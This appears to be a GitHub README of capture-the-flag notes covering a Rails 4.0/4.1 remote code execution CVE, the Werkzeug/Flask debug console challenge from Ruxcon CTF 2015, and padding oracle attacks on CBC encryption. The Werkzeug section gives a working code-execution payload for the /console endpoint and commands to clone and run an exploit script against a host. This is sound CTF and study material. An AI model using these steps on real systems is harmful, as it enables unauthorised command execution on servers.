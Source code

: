 ## CTF Badge

### CVE-2015-3224:
Rails 4.0 and 4.1 X-Forwarded-For:localhost on 404 -> RCE


### Werkzeug DEBUG

This challenge was written for Ruxcon CTF 2015 and cover the Debug mode of Werkzeug/Flask

go to url/console
use __import__('os').popen('<cmd>').read()

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
cd Werkzeug-Debug-RCE
chmod +x werkzeug.py
python werkzeug.py ptl-63e89638-8b2f2181.libcurl.so ls

### Padding Oracle

- CBC is an encryption mode in which the message is split into blocks of X bytes length and each block is XORed with the previous encrypted block. The result is then encrypted.
- Padding can be done in multiple ways. A common way is to use PKCS7. With PKCS7, the padding will be composed of the same number: the number of bytes missing. For example, if the cleartext is missing 2 bytes, the padding will be \x02\x02.
- During the cleanup of the padding, if an invalid padding triggers a detectable behavior, you have a padding oracle. The detectable behavior can be an error, a lack of results, or a slower response.
